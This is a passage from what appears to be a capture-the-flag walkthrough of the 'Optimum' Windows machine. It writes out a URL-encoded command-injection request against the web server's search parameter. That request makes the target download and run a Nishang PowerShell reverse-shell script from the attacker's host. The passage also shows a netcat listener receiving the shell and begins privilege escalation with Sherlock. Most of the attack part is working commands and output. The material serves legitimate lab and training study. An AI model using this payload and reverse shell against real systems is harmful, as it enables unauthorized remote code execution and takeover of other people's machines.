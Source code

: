 The ping works! Let's see if we can turn this into a reverse shell with Nishang's `Invoke PowerShell shell via TCP` script. 


### Nishang Reverse Shell

**Copy Nishang reverse shell**
```
cp /home/virtualtack/tools/shells/reverse-shells/nishang/Invoke-PowerShellTcp.ps1   .
```

We need to open the script file and add our reverse shell command to be invoked:

`Invoke-PowerShellTcp.ps1`
```
Invoke-PowerShellTcp -Reverse -IPAddress <kali-ip> -Port 8001
```

Now, back in Burp, we need to instruct the server to download the Nishang script and execute it (once again with a URL-encoded request):

```
GET /?search=%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<kali-ip>:8000/Invoke-PowerShellTcp.ps1').} HTTP/1.1
```

**Note:** We need to leverage the 64-bit version of PowerShell that resides at `C:\Windows\SysNative\PowerShell.exe`

After URL encoding, our request looks like:
```
GET /?search=%00{.exec|c%3a\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//<kali-ip>%3a8000/Invoke-PowerShellTcp.ps1').} HTTP/1.1
```

```
$ nc -lvnp 8001
listening on [any] 8001 ...
connect to [<kali-ip>] from (UNKNOWN) [<target-ip>] 49203
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
 
whoami      
optimum\kostas

```

### PrivEsc

Owing to the age of the machine, we opt to employ a Sherlock scan to help us identify vulnerabilities that will allow us to escalate our privileges to `SYSTEM`. To make this quicker, we can simply add the relevant `Find-AllVulns` function call to the end of the `Sherlock.ps1` script file to allow for immediate execution.

**Search `Sherlock.ps1` for functions**
```
grep -i function Sherlock.ps1
```

